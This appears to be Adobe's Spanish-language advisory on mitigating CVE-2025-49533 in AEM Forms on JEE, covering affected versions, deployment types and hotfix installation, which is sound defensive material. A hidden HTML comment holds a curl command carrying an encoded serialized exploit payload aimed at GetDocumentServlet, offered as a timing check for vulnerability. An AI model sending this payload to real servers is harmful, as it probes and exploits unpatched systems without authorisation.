 ```yaml
---
title: Mitigación de la vulnerabilidad de ejecución de código remoto para AEM Forms en JEE (CVE-2025-49533)
description: Mitigación de la vulnerabilidad de ejecución de código remoto para AEM Forms en JEE (CVE-2025-49533)
contentOwner: khsingh
products: SG_EXPERIENCEMANAGER/6.5/FORMS
solution: Experience Manager, Experience Manager Forms
feature: Developing
role: Admin
hidefromtoc: true
hide: true
source-git-commit: 6feebde8e1a2c89599f04e10e3e2a884a6202575
workflow-type: tm+mt
source-wordcount: '720'
ht-degree: 0%

---
```



# Mitigación de la vulnerabilidad de ejecución de código remoto para AEM Forms en JEE (CVE-2025-49533)

Este documento proporciona instrucciones para abordar un problema de seguridad crítico (CVE-2025-49533) en AEM Forms en JEE que podría permitir la ejecución de código no autorizado a través de un servlet no protegido.

## Explicación de los tipos de implementación de AEM Forms

Esta vulnerabilidad afecta a diferentes implementaciones de AEM Forms de forma diferente. Comprender el tipo de implementación es crucial para determinar los pasos de mitigación adecuados.

### Versión afectada

* Esta vulnerabilidad afecta a todas las versiones de AEM Forms en JEE desde la 6.0 a la 6.5. Actualmente solo se mantienen y admiten AEM Forms 6.5 y sus Service Packs. Todas las demás versiones (6.0-6.4) han llegado al final de su vida útil (EOL).

### Versiones de correcciones

* AEM 6.5 Forms Service Pack 23 con revisión proporcionada para corregir la vulnerabilidad.

### Implementación conjunta frente a AEM Forms independiente en implementaciones JEE

**Implementación conjunta (AEM Forms + CQ EAR):**

* Tanto AEM Forms JEE como AEM (CQ) Author y Publish Enterprise Application Archive (EAR) se implementan juntos en el mismo servidor de aplicaciones
* Proporciona un entorno unificado con funciones de Forms y administración de contenido de AEM

**AEM Forms independiente en JEE:**

* AEM Forms se implementa en el servidor de aplicaciones con solo componentes JEE y sin ningún AEM EAR.
* Limitado a las funciones y características específicas de JEE de AEM Forms

### Cómo identificar el tipo de implementación

Para determinar definitivamente el tipo de implementación, compruebe qué artefactos se implementan realmente en el servidor de aplicaciones. Normalmente, pero sin limitarse a, a través de la consola de administración del servidor.

**Indicadores implementados conjuntamente:**

* Se puede acceder al extremo `/lc` en el servidor (por ejemplo, `https://your-server/lc`)
* Puede acceder a los extremos de autor/publicación de AEM.
* La estructura de URL incluye rutas de acceso de AEM como `/content/`, `/apps/`, `/etc/`
* Las funciones de administración de contenido de AEM están disponibles junto con Forms

**Indicadores independientes:**

* Solo se puede acceder a las interfaces de IU de administración
* Sin funcionalidad de autor/publicación de AEM
* Limitado a direcciones URL e interfaces JEE específicas de Forms


## Versiones afectadas

| Producto | Versiones que requieren mitigación | Versiones aptas para revisión |
|---------|-----------------------------|-----------------------------|
| Adobe Experience Manager 6.5 Forms en JEE | Todas las instalaciones independientes de Adobe Experience Manager 6.5 Forms en JEE | AEM 6.5 Service Pack 18 a Service Pack 23 |

## Resolución

### Soluciones específicas de la versión

| Versión de AEM Forms | Acción necesaria |
|---|---|
| AEM 6.5 Forms Service Pack 18: paquete de servicio 22 con AEM Author o Publish EAR implementados de forma conjunta | [Actualizar a AEM 6.5 Service Pack 23 o posterior](/help/release-notes/release-notes.md) |
| AEM 6.5 Forms Service Pack 18: paquete de servicio 23 sin creación de AEM ni implementación de EAR de publicación (para AEM Forms independiente en la implementación de JEE) | [Aplicar revisión](#apply-the-hotfix) |
| AEM 6.5 Forms Service Pack 17 y anteriores | &#x200B;1. [Actualizar al paquete de servicio 23 o posterior de AEM 6.5](/help/release-notes/release-notes.md) <br> 2. Para implementaciones independientes de AEM Forms en JEE, [aplique la revisión](#apply-the-hotfix). |

> **Nota**: AEM Forms solo admite oficialmente los seis Service Packs más recientes. Los usuarios con versiones anteriores deben actualizar primero al Service Pack más reciente y, a continuación, implementar las medidas de seguridad necesarias.

## Consideraciones de implementación

### Para Entornos Agrupados

Al trabajar con una implementación agrupada:

* Aplicar instalación de revisión en **todos los nodos** del clúster
* Mantener la coherencia utilizando versiones de revisión idénticas en todos los servidores
* Actualizaciones completas en todos los nodos antes de iniciar cualquier reinicio del servicio
* Compruebe la corrección en cada nodo de forma independiente siguiendo los pasos de verificación

### Para entornos de un solo nodo

Al trabajar con AEM Forms en una implementación independiente de JEE:

* Siga un proceso simplificado, ya que no hay nodos adicionales que administrar
* Complete todos los pasos de instalación de la revisión según las instrucciones

<!-- ## Vulnerability Verification

Before implementing the fix, verify if your system is vulnerable by executing the following tests:

### Test Commands

#### 1. Test with Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=H4sIAAAAAAAAAK1WTWxbRRCetR3bsZI2P80fhf4HkpS%2Bl5C2aXFEyA9tXV5IUEw4%2BGCtnxfnlffX3X3E6YEDElKvCC4ckRAcKIdISFQckLhy5gRCQkLigAQcygGp4md2nxOnIWqSNpH8dndmd76Zb2dmc%2Bc3aBEc%2Bm7Qt6gRScc1FrkTcEeuvRqxiH3w%2FegX96feWU9CogAp4dxiFuTswAsppzLgEnotddJUJ83ZTXm%2BHgJAAg2fDXjNoCG1V5iB57zAF0aFUV8dEMYMzpqnfv7o9q%2Fi1MfXEpB4AOUmvA3EgmzIg5BxuSahK0Z1qV8zlyR3%2FBoiItrUDmh24LrMlk4837ApjAZuxWVND%2B7%2F%2BeHgXX99IgFQDyV0BJEMI7kY4zpMrKYwrCQCPY%2BWDBH5xhbAOkV%2FDMeXjPvUNerClbYhOa0bReaFLpVMFHBsfX3hG%2F%2FOZ%2BNJSBegvez4VebLVyKvwngBDpXxgC9cJgsor5cgV66sSWYHVSYkJEulmRKky7ZLBS67SltomFWyvAUtZZ96TFGWsqCzvD2CB2%2BsKY9vDP7Fv4hroJf%2FHuip1X6IuVC3ifJEaebOvb6%2F0tniTw1x%2BtK3%2F3z1Naqfg%2FEMjBEYXxOBYNyhrhnSNTegVRFjXaXVGpPizJKMKsVGkIvxjgykCLyIlJpIqYmUmjGlpqbU3KDU1JSaPPKl4zFzuiKQLFtuGMtAmsARHZwTmEvaB%2BeWumACHbFLy4wLTITXCnMEyHUC7bOYFZL6cpm6EWv5%2FMT799778Y8XCKQnHd%2BROEkODS8TSM3iBeQgCR1t0AbtBA5bjs%2FiSyvGCF1WYCMARRhcN4QpueIIAhesRyAlT6BVJ8MbAfcI8CFrrwTNLcznSzvu9tzmXtEgiPEmV6pKrlG%2F6jKeV3HnXqrbLNS1k4EBApf36sJGLJvnCWSrgR15mOsEzu0rFDy6EvuEVM48fmAEPtkfl7siVqVnzhXnp%2BuOKKBId8AD4T%2FrNMypHHoULwhkGtwRmD4A5nJLQcRtdsVR2d3WyF5D1RwuC77PuO5DDNPlGQLHd0l7At07JD6GPWm7jfrraHa44gpnqleMEHyyXMZCrK%2Bh68PLbfAsnMvBWTCwoJcktd%2Bcp2GjAJ9serC4it6NTYxdnLh8cfzC%2BbFRbFbHrIfp83ASsAPgrwV%2FT0AGsji2ql4IOUjhHHsBfg%2BhxMSR4Ngy8iUcXtdbOvGb1kITuvDbFm%2BAbuyVgPMe6MVdfThXpvq1mSn1vijtdhPntYkTsbJhArRXR7UeQ4Wn8IQye%2Bx%2FZgt6tYPZS9rsSKzc0exxBE3o2Uk4hfBZGN4MWq2Vrv1TSBKrs%2Fv2u3fBXNebR3UgROlPa8wzMIhjTtP0NAxBa6TeqA7c%2B93mC3I0AwkCp3drlleCQL8YW3JjoXID3%2FjHfwFu%2FuL8Puld7T%2FoF2Bw1xcAg9pffQ3spb6SaPahWUz2nsWT27L4iNb36G%2BvTrjYXD%2BCtOJ%2FTymsKB6uEqirm26v%2FwfLba%2FhawoAAA%3D%3D
```

#### 2. Test with Non-Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=1234
```

**Note**: Replace `${FORMS_HOST}` with your actual Forms server hostname and port.

### Vulnerability Confirmation
* **Vulnerable System**: Response time ≥ 5 seconds for exploitable payload
* **Secure System**: Response time ~600ms for both payloads
* **Indicator**: Significant difference in response times confirms the vulnerability -->

## Pasos de mitigación

### Para servidores con CQ EAR implementado conjuntamente

* Compruebe si AEM EAR se ha implementado en su instancia JEE
* Si el autor de AEM o el EAR de publicación se han implementado de forma conjunta, [actualice a AEM 6.5 Service Pack 23 o posterior](/help/release-notes/release-notes.md)

### Para servidores sin CQ EAR implementado conjuntamente (AEM Forms en JEE independiente)

#### Verificar la versión de AEM Forms

1. Asegúrese de que tiene acceso administrativo a AEM Workbench.
1. [Asegúrese de que su versión de AEM Forms](https://experienceleaguecommunities.adobe.com/t5/adobe-experience-manager/how-find-the-aem-forms-version-using-the-aem-admin-or-system/m-p/603733) sea AEM 6.5 Forms Service Pack 18 a Service Pack 23.

#### Aplicar la revisión

1. **Descargar la revisión:**
   * Acceda a Distribución de software de Adobe para descargar la revisión
   * Guarde el archivo de revisión en el equipo local
   * Comprobar la integridad del archivo descargado

2. **Instalar la revisión:**
   * Abrir **AEM Workbench**
   * Conexión al servidor de AEM Forms afectado
   * Vaya a la **ventana → Mostrar vista → componentes**
   * Haga clic con el botón derecho en la vista Componentes y seleccione &quot;Instalar componente&quot;
   * Busque y seleccione el archivo de revisión
   * Siga las indicaciones del asistente de instalación y espere a que finalice

3. **Esperar y validar:**
   * Espere a que todos los servicios se inicialicen completamente

#### Solución de problemas

**Problemas comunes:**

* Verifique que todos los servicios de AEM Forms se hayan iniciado correctamente
* Comprobar los registros del servidor de aplicaciones en busca de errores de instalación

